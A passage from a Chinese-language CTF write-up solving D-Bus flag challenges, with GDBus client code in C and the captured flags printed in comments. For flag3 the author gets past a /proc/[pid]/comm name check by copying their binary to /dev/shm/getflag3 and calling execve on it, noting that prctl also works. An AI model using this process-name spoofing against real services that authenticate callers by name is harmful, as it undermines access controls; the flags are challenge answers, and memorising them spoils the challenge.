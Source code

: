 ```c
    result = g_dbus_proxy_call_with_unix_fd_list_sync(
                    proxy,
                    "GetFlag2",
                    g_variant_new ("(h)", 0),
                    G_DBUS_CALL_FLAGS_NONE,
                    -1,
                    fd_list,
                    &out_fd_list,
                    NULL,
                    &error);
    g_assert_no_error(error);

    g_variant_get(result, "(&s)", &str);
    g_printf("The server answered: '%s'\n", str);
    g_variant_unref(result);
    // flag{n5tw0rk_TrAnSpaR5Ncy_d0n0t_11k5_Fd_efd7ee2235}
}
```

flag3则要求我们只能用一个`/proc/[pid]/comm`为getflag3的程序来请求dbus，但是分发的那个`getflag3`只能请求不能回显。但是很显然`comm`只包括了被执行的程序文件名而不包括绝对路径，我们只要把自己的程序名字改成`getflag3`就行了。我的做法是执行一堆`system`之后execve自己。看flag提示似乎直接用prctl系统调用就可以改名。总之这问方法挺多。

（另外shell执行`dbus-send`的时候comm似乎是dbus-send）

```c
void getflag3(GDBusProxy *proxy)
{
    GVariant *result;
    GError *error = NULL;
    const gchar *str;

    g_printf("flag3...\n");
    result = g_dbus_proxy_call_sync(proxy,
                    "GetFlag3",
                    g_variant_new ("()"),
                    G_DBUS_CALL_FLAGS_NONE,
                    -1,
                    NULL,
                    &error);
    g_assert_no_error(error);
    g_variant_get(result, "(&s)", &str);
    g_printf("The server answered: '%s'\n", str);
    g_variant_unref(result);
    
}

void flag3(GDBusProxy *proxy, char **environ) {
    GVariant *result;
    GError *error = NULL;
    const gchar *str;

    char * new_args[3] = {"/dev/shm/getflag3", "flag3", NULL};

    system("cp /dev/shm/executable /dev/shm/getflag3");
    system("chmod +x /dev/shm/getflag3");
    execve("/dev/shm/getflag3", new_args, environ);

    // flag{prprprprprCTL_15your_FRiEND_45cb8a68a7}
}

int main( int argc , char ** argv, char **environ)
{
    GDBusConnection * connection;
```